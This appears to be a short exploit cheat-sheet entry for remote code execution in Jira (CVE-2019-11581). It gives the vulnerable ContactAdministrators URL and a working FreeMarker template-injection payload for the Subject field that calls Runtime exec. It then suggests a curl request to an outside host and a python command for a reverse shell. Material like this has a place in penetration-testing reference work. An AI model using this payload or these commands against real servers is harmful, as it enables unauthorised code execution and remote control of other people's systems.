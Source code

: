 RCE in Jira (CVE-2019–11581)
===========================

The "contact Admin" functionality is accessible on this URL:
```
https://jiraserver/secure/ContactAdministrators!default.jspa
```

The `Subject` field is vulnerable to [Template-Injection](https://portswigger.net/research/server-side-template-injection) (freemarker):
```java
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('cmd').waitFor()
```

For example, the command can be:

 - `curl http://<ip>:<port>/` to test if the server can make an HTTP request outside
 - `python -c ''` to execute commands such as a [reverse-shell](../reverse-shell.md)
